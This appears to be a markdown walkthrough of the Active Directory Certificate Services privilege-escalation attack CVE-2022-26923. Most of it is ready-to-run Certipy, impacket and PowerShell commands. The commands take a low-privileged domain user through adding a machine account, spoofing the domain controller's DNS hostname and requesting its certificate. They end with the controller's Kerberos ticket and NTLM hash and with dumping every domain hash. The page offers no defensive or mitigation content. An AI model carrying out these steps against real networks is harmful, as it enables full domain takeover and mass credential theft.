 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```shell
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```shell
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```shell
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

```shell
addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`
```

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. Now a TGT can be created for the machine account, which will output a CCACHE file:

```shell
certipy auth -pfx NEW-PC.pfx
```

On a Windows host on the target environment, the following commands can now be ran in powershell to make modifications to the DNS hostname. First look at the dnshostname and service princlpal name:

```powershell
Get-ADComputer NEW-PC -properties dnshostname,serviceprincipalname
```

First, delete the serviceprincipalname using the following powershell command:

```powershell
Set-ADComputer NEW-PC -ServicePrincipalName @{}
```

Rename the DNS hostname to a hostname that belongs to the domain controller within the environment:

```powershell
Set-ADComputer NEW-PC -DnsHostName DC1.domain.local
```

Now certipy can be ran again to request a certificate for the same machine again, noting that the SPN has been removed and the DNS host name now matches that of a domain controller within the environment:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```
The certificate output will contain the same properties of the domain controller. A TGT can now be created using certipy, and will save the output as `DC1.domain.local.CCACHE`. Furthermore, the output will contain the NTLM hash of DC1$ machine account:

```shell
certipy.py auth -pfx DC1.pfx
```

With the NTLM and TGT to authenticate as DC1$, it would be possible to use Impackets secretsdump.py tool to dump all hashes from the domain, either by supplying the CCACHE file as the `export KRB5CCACHE=DC1.ccache` and selecting kerberos authentication, or just by supplying the NTLM hash of the machine account.



